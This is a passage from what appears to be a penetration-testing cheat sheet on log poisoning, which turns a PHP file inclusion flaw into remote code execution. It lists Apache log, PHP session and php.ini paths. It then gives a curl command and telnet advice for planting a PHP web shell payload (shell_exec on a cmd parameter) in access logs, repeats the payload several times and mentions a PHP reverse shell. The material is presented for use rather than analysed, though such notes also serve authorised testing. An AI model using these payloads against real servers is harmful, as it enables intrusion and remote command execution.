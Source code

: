       # Other variants
      /var/log/apache/access.log
      /etc/httpd/logs/access_log
      ```
      
   2. Session logs can also have code injected in them via the username box.  These are usually stored in:
   
      ```bash
      c:\Windows\Temp\sess_SESSIONID
      /tmp/sess_SESSIONID
      /var/lib/php5/sess_SESSIONID
      /var/lib/php/session/sess_SESSIONID
      ```
   
      Read the `php.ini` file to find out where they are stored (or just try the defaults above).  
   
      ```bash
      Ubuntu/Debian old/new php.ini locations:
      Older php5 with Apache: /etc/php5/apache2/php.ini
      Older php5 with NGINX+FPM: /etc/php5/fpm/php.ini
      Ubuntu 16+ with Apache: /etc/php/5.2.17/apache2/php.ini *
      Ubuntu 16+ with NGINX+FPM - /etc/php/*/fpm/php.ini *
      
      #/*/ = the current PHP version(s) installed on system.
      ```
   
5. Once a suitable file is found, send this malicious PHP code so that it is is stored in that location.   

   1. For Apache logs, try one of these methods:
   
      - Inject code into the user agent to the code below using curl
      ```bash
      curl -A "****COYOTE_LOG**** <?php echo shell_exec($_GET['cmd']);?>" http://www.example.local
      ```
   
      - Warning:  The code may get cut off with this method:
        Use `telnet host port` and just send the code below without any other commands.  It will generate an error, but that's okay.
         NOTE:  Some databases used single quotes for the strings, in which case your code will not be able to use single quotes.
   ```php
   # Test code
   <?php phpinfo(); ?>
   
   # Some code you can use with a marker (COYOTE_LOG) for easy searching in the logs
   ****COYOTE_LOG**** <?php echo shell_exec($_GET['cmd']);?>
    
   # Or you can try this
   ****COYOTE_LOG**** <?php echo shell_exec($_GET['cmd']);?>
   # you can also use a PHP reverse shell script
   ```
   